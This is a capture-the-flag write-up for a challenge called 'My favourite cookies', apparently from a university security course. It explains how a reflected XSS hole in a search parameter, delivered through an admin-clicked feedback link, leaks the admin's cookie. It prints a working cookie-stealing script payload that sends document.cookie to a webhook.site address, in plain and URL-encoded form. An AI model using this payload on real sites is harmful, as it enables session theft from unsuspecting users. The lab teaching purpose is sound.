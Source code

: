 # Challenge `My favourite cookies` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Feedback link input
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admin's cookies.
From the previous challenge, we know that the server is vulnerable to XSS attacks.
The feedback feature allows us to submit a link that the admin will click on.

## Exploit

Knowing that the admin will click on the link, it's possible to take advantage of the search URL parameter 
`?search=` to send a malicious payload that will reveal the cookies on his browser and then send them
to us.
Start by creating a website on [Webhook](https://webhook.site/) which will receive the remote requests.
Then, get the link to the website and create the following payload:
`<script>location="https://webhook.site/your-unique-id/"+document.cookie</script>`.
Encode the payload to ensure that it will be correctly interpreted:
`%3Cscript%3Elocation%3D%22https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%22%2Bdocument.cookie%3C%2Fscript%3E`
Finally, append it to the URL parameter `?search=` and submit it to the admin.
`http://mustard.stt.rnl.tecnico.ulisboa.pt:22251/?search=%3Cscript%3Elocation%3D%22https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%22%2Bdocument.cookie%3C%2Fscript%3E`  
The admin will eventually click on link and automatically make a search query with the malicious payload that will
send a resquest to our webhook site with the cookies content appended.  
In the webhook site, a GET request will show up
`https://webhook.site/your-unique-id/SECRET=SSof%7BThis_is_my_secret%7D` revealing the flag
`SSof{This_is_my_secret}`.

## Implementation

No script needed.